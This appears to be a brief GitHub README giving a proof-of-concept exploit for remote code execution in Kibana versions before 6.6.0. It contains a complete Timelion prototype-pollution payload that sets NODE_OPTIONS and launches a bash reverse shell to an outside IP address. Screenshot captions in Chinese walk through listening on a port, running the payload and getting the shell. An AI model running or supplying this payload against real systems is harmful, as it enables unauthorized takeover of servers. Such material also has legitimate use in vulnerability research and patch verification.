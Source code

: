 # kibana-RCE <6.6.0
![](./kibana1.jpg "监听端口")

POC：
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.1.27/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')

![](./kibana_2.jpg "点击RUN执行")

![](./kibana3.png "成功反弹shell")

